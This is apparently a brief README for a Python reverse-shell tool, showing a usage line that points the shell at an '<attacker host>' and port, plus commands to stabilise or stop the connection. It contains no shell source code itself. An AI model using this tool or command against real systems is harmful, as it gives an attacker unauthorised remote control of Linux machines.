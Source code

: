 <h2>Linux Simple</h2>

Simple shell, usage:

*python3 simple_linux_rev_shell.py --host <attacker host> --port <attacker port>*

You can also comment args parser and input ip:port in the code.

**Commands:**
- **stable:** try to establish connection (You can not use Ctrl+C, TABs and etc)
- **stop:** break the connection
- Linux standard commands
